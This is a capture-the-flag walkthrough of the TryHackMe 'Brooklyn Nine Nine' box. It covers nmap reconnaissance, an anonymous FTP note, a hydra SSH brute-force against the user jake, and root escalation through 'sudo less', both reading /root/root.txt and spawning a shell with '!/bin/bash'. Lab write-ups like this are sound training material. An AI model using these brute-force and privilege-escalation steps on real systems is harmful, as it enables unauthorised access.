 ```bash
# PLATFORM          . THM
# CTF NAME          . Brooklyn Nine Nine
# DESCRIPTION       . This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/brooklynninenine
```

```
sudo nmap -sSVC -T5 10.10.189.164 -p- -oN brooklyn911
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.53.46
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt

22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 167f2ffe0fba98777d6d3eb62572c6a3 (RSA)
|   256 2e3b61594bc429b5e858396f6fe99bee (ECDSA)
|_  256 ab162e79203c9b0a019c8c4426015804 (ED25519)

80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

- From this scan we can already see that `FTP` supports anonymous login and that there's a `.txt` file. Let's check it out.

```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

- Alright. We got two potential usernames, `amy` and `jack`. 

- The webserver itself didn't reveal nothing interesting first sight, but upon checking the source code, we find a hint

```
<!-- Have you ever heard of steganography? -->
```

- Let's check the wallpaper

```bash
wget http://10.10.189.164/brooklyn99.jpg
```

- No idea if I'm doing something wrong or not, but it might've been something to get us off the track.

```
steghide: can not uncompress data. compressed data is corrupted.
```

- I couldn't find anything useful using `binwalk`, `strings` or by analyzing the magic numbers. 

- However, while I was checking the jpg I also ran `hydra` against `ssh` to see if we can bruteforce `jake`'s password.

```
 hydra -l jake -P /usr/share/wordlists/rockyou.txt 10.10.189.164 ssh
```

- And we did. Let's check the box.

- First flag is in `/home/holt/user.txt`

- By checking `sudo -l` we can see that we can run `/usr/bin/less` as sudo, which can be exploited to elevate our privileges to `root`.

METHOD 1 : read the flag directly

```bash
sudo less /root/root.txt
```

METHOD 2 : spawn root shell

```bash
sudo less /etc/profile
!/bin/bash
```

